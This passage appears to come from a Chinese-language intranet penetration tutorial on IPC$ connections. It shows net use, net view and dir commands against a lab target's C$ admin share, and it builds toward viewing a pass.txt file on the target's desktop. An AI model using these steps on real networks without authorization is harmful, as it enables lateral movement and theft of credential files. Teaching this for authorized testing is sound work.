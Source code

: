 **2）删除 IPC 连接：**

```
net use \\10.10.10.8 /de /y
```

![在这里插入图片描述](%E5%86%85%E7%BD%91%E6%B8%97%E9%80%8F_IPC.assets/073e144dbc9c45df99618b51af35690f.png) **3）查看目标的共享磁盘**

```
net view \\10.10.10.8
```

![在这里插入图片描述](%E5%86%85%E7%BD%91%E6%B8%97%E9%80%8F_IPC.assets/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAQmV5b25kIE15,size_20,color_FFFFFF,t_70,g_se,x_16-16671923655111.png) **4）查看目标 C 盘下的文件**

```
dir \\10.10.10.12\c$
```

![在这里插入图片描述](%E5%86%85%E7%BD%91%E6%B8%97%E9%80%8F_IPC.assets/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAQmV5b25kIE15,size_15,color_FFFFFF,t_70,g_se,x_16.png) **5）查看桌面目录下的pass.txt文件：** ![在这里插入图片描述](%E5%86%85%E7%BD%91%E6%B8%97%E9%80%8F_IPC.assets/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAQmV5b25kIE15,size_16,color_FFFFFF,t_70,g_se,x_16.png)
